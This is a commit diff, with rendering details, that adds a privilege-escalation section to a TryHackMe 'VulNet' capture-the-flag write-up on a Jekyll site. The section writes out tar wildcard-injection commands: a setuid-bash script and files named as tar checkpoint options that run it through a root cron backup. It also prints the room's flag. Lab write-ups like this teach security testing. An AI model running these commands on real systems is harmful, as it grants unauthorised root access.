

Before and after one commit to bitcriminals/bitcriminals.github.io, a Jekyll site: the page built from writeups/_tryhackme/vulnet.md, in a window 1280 px wide and 1400 px high, scrolled down 6714 px. Shown: the top 1382 px of the window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 7344 px from its top, so only the background shows below that.

Commit message:
Update vulnet.md

````diff
--- a/writeups/_tryhackme/vulnet.md
+++ b/writeups/_tryhackme/vulnet.md
@@ -137,3 +137,27 @@ After that comes privilege escalation. We try sudo -l but are prompted for a pas
 ![](/images/MaskdMafia/vulnet3.png)
 
 We see that it makes a backup of everything in the Document folder routinely.
+
+Basically,it is a **CronJob** file.I searched about this in the web and here's what I found.
+https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e
+
+What this script does is basically,it creates backup of every file within the Downloads directory of the user.After reading the article I ran the commands given in the blog
+
+![](/images/vul4.png)
+and ran /bin/bash -p  but it didin't work.
+
+So,I changed my commnads a bit and used this instead.
+
+```echo "chmod +s /bin/bash" > privesc.sh```
+
+```echo "" > "--checkpoint-action=exec=sh privesc.sh"```
+
+```echo "" > --checkpoint=1```
+
+then,I ran /bin/bash -p and here's we get the root priviledges.
+
+![](/images/vul5.png)
+
+Congo, we get the flag,
+
+***THM{220b671dd8adc301b34c2738ee8295ba}***
````
